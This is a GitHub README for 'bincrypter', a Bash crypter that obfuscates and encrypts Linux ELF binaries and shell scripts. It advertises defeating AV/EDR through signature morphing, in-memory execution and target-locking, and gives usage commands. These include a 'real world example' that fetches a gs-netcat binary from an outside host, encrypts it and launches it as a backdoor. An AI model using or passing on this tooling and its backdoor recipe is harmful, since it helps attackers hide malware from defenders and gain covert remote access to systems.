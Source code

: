 
## A Linux Binary Runtime Crypter - in BASH!

- Obfuscate & encrypt any ELF binary
- Obfuscate & encrypt any SHELL-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files
- Not soiling the filesystem
- Double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land (LotL): Only needs `/bin/sh` + `perl` + `openssl`
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...
- *Lock* a binary to a target system and make it fail to run anywhere else.

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/releases/latest/download/bincrypter -o bincrypter
chmod +x bincrypter
./bincrypter -h
```

Example:
```shell
cp /usr/bin/id id
./bincrypter id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  

---
Join the fun: https://thc.org/ops  
bsky: [@hackerschoice.bsky.social](https://bsky.app/profile/hackerschoice.bsky.social)  
Mastodon: [@thc@infosec.exchange](https://infosec.exchange/@thc)





